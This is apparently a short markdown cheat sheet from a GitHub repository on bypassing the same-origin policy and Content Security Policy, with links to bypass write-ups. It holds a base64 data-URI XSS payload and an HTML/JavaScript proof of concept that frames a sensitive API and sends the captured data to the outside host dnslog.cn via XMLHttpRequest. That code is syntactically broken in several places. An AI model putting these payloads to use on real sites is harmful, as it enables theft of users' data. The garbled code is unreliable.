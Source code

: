 # Striction
## SOP
  __Same-Origin-Policy__



## CSP
   __Content-Security-Policy__, is a mechanism to define which resources can be fetched out or executed by a web page. In other words, it can be understood as a policy that decides which scripts, images, iframes can be called or executed on a particular page from different locations. Content Security Policy is implemented via response headers or meta elements of the HTML page. From there, it’s browser’s call to follow that policy and actively block violations as they are detected.
- [Bypass of CSP](https://csplite.com/csp320/)
- [content-security-policy-csp-bypass-techniques](https://bhavesh-thakur.medium.com/content-security-policy-csp-bypass-techniques-e3fa475bfe5d)
```
<script src="data:;base64,YWxlcnQoZG9jdW1lbnQuZG9tYWluKQ=="></script>
```
- [bypassing-csp-with-policy-injection](https://portswigger.net/research/bypassing-csp-with-policy-injection)
- Data protocol allowed: xss by iframe, combining postMessage to steal info
```html
<html>
<body>
<iframe id='attack' src="http://get_method_api_response_contains_sensitive_info/api"></iframe>
<script type="text/javascript">

var frame = document.getElementById("attack");
frame.addEventListener("load", function(){
  setTimeout(sendInfo,600)}
  )
 
function getInfo{
var payload = btoa(<script>                     #data protocol
    window.addEventListener(
     function(event)
       {xhr = new XMLHttpRequest();
        xhr.open("GET","http://dnslog.cn?message="+ event.data);
        xhr.send(null)}
     )
}     

function sendInfo{
 frames[0].postMessage("")
}
</script>
</body>
</html>
```
- script: self : combine the function of file upload
- [ClickJacking](https://resources.infosecinstitute.com/topic/bypassing-same-origin-policy-part-3-clickjacking-cursorjacking-filejacking/)


## iframe
- [sandbox](https://www.runoob.com/tags/att-iframe-sandbox.html)
- 

# Filter
- keyword
- characteristic
  - [iframe srcdoc](https://github.com/carlospolop/hacktricks/blob/master/pentesting-web/xss-cross-site-scripting/iframes-in-xss-and-csp.md#iframes-in-xss)
  - /xxx/.source
- 
